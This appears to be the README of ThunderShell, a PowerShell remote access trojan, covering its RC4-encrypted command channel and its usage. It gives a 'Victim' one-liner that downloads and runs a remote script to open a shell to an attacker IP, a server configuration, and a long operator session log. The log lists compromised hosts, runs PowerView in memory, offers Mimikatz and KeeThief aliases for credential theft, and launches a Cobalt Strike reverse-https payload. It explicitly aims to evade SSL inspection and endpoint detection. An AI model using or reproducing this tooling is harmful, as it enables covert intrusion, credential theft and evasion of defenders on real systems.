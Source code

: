 # ThunderShell

ThunderShell is a Powershell based RAT that rely on HTTP request to communicate. All the network traffic is encrypted using a second layer of RC4 to avoid SSL interception and defeat network hooks.

# Dependencies

```
apt install redis-server
apt install python-redis
```

# Logs
Every errors, http requests and commands are logged in the logs folder.

# How it works

Once the PowerShell script is executed and HTTP request will be issued to the server. The body of each POST request contains the RC4 encrypted communication. Why RC4 because it's strong enough to hide the traffic. The idea is to upload / download data over the network that cannot be inspected. The RAT support HTTPS but some security product may perform SSL interception and obtain visibility on your data leading to detection of malicious payload (PowerShell script, stager etc...). The RC4 encryption allow you to communicate over the wire without leaking your payload. The RC4 encryption also protect against endpoint agent that inspect traffic directly on the host, again the traffic is decrypted at the "software" level blocking detection at that level too.

To use the power of the tool there is some built in function such as `fetch`, `exec` and `upload` that allow you to run your payload quite easily.

* Fetch flow

```
The server will fetch a resource (path, url) 
        Send the data over the RC4 encrypted channel
                The PowerShell RAT will decrypt the payload 
                        PowerShell Execute the final payload
```

For example if you fetch PowerView.ps1 script it will be fully encrypted over the wire avoiding detection since the server is proxying the request and fully encrypt the data.

# Usage

Victim:
```
powershell -exec bypass IEX (New-Object Net.WebClient).DownloadString("http://ringzer0team.com/PS-RemoteShell.ps1); PS-RemoteShell -ip 1.1.1.1 -port 8080 -Key test -Delay 2000
```

Attacker side example:

* default.json:
```
{
        "redis-host": "localhost",
        "redis-port": 6379,

        "http-host": "192.168.17.129",
        "http-port": 8080,
        "http-server": "Microsoft-IIS/7.5",

        "https-enabled": "off",
        "https-cert-path": "cert.pem",

        "encryption-key": "test",
        "max-output-timeout": 5
}
```

```
me@debian-dev:~$ python ThunderShell.py default.json

Thunder Shell 1.1 | Clients Server CLI
Mr.Un1k0d3r RingZer0 Team 2017
--------------------------------------------------------

[+] Starting web server on 192.168.17.129 port 8080

(Main)>>>
[+] Registering new shell 10.0.0.153:RingZer0\MrUn1k0d3r
[+] New shell ID 13 GUID is 4c05a17f-036a-4cd4-9446-da46281d5754


[-]  is not a valid command

(Main)>>> help

Help Menu
-----------------------

        list      args (full)             List all active shells
        interact  args (id)               Interact with a session
        event     args (log/http, count)  Show http or error log (default number of rows 10)
        kill      args (id)               Kill shell (clear db only)
        exit                              Exit the application
        help                              Show this help menu

(Main)>>> list

List of active shells
-----------------------

  4       x64  -  10.0.0.153:RingZer0\MrUn1k0d3r
  3       x64  -  10.0.0.153:RingZer0\MrUn1k0d3r
  2       x64  -  10.0.0.153:RingZer0\MrUn1k0d3r
  1       x64  -  10.0.0.153:RingZer0\MrUn1k0d3r

(Main)>>> list full

List of active shells
-----------------------

  4       x64  -  10.0.0.153:RingZer0\MrUn1k0d3r 2836ccdc-6747-45a4-8461-fa4022ac6bd0 last seen 13/09/2017 09:59:32
  3       x64  -  10.0.0.153:RingZer0\MrUn1k0d3r d09093a0-d3d7-4de9-b3a9-191ab7b2fef1 last seen 13/09/2017 09:54:31
  2       x64  -  10.0.0.153:RingZer0\MrUn1k0d3r 8d95e7c8-6868-4eb3-8ba8-231a1fdfcb92 last seen 13/09/2017 09:50:18
  1       x64  -  10.0.0.153:RingZer0\MrUn1k0d3r 90c608da-b64d-4d3a-9336-458e73658e49 last seen 12/09/2017 18:27:47

(Main)>>> interact 4

(x64 - 10.0.0.153:RingZer0\MrUn1k0d3r)>>> help

Shell Help Menu
-----------------------

        background                              Return to the main console
        refresh                                 Check for previous commands output
        fetch         args (path/url, command)  In memory execution of a script and execute a commmand
        exec          args (path/url)           In memory execution of code (shellcode)
        read          args (remote path)        Read a file on the remote host
        upload        args (path/url, path)     Upload a file on the remote system
        ps                                      List processes
        powerless     args (powershell)         Execute Powershell command without invoking Powershell
        delay         args (milliseconds)       Update the callback delay
        help                                    Show this help menu


List of path alias
-----------------------

        powerup                 PowerUp tool set
        wmiexec                 Remote-WmiExecute utility
        searchevent             Search-EventForUser utility
        keethief                KeeThief tool set (Get-KeePassDatabaseKey)
        mimikatz                Invoke-Mimikatz utility
        inveigh                 Invoke-Inveigh utility
        powerview               PowerView tool set)

(x64 - 10.0.0.153:RingZer0\MrUn1k0d3r)>>> whoami
RingZer0\MrUn1k0d3r

(x64 - 10.0.0.153:RingZer0\MrUn1k0d3r)>>> delay 0
Updating delay to 0
Delay is now 0


(x64 - 10.0.0.153:RingZer0\MrUn1k0d3r)>>> fetch powerview Get-NetLocalGroup -ComputerName 127.0.0.1
[+] Fetching https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
[+] Executing Get-NetLocalGroup -ComputerName 127.0.0.1


(x64 - 10.0.0.153:RingZer0\MrUn1k0d3r)>>> refresh


ComputerName : 127.0.0.1
AccountName  : 10-R90G3RLC-1GG/Administrator
IsDomain     : False
IsGroup      : False
SID          : S-1-5-21-
Description  : Built-in account for administering the computer/domain
PwdLastSet   : 8/11/2017 6:01:45 PM
PwdExpired   : False
UserFlags    : 66049
Disabled     : False
LastLogin    : 8/11/2017 5:58:47 PM

(x64 - 10.0.0.153:RingZer0\MrUn1k0d3r)>>> ps

 PID Name                       Owner                    CommandLine
 --- ----                       -----                    -----------
   0 System Idle Process
   4 System
 364 smss.exe
 492 csrss.exe

(x64 - 10.0.0.153:RingZer0\MrUn1k0d3r)>>> exec /home/attacker/cobaltstrike-reverse-https
[+] Fetching /home/attacker/cobaltstrike-reverse-https
[+] Payload should be executed shortly on the target
```

# Todo

Implement in memory protection to avoid endpoint in memory detection

# Credit 
Mr.Un1k0d3r RingZer0 Team 2017
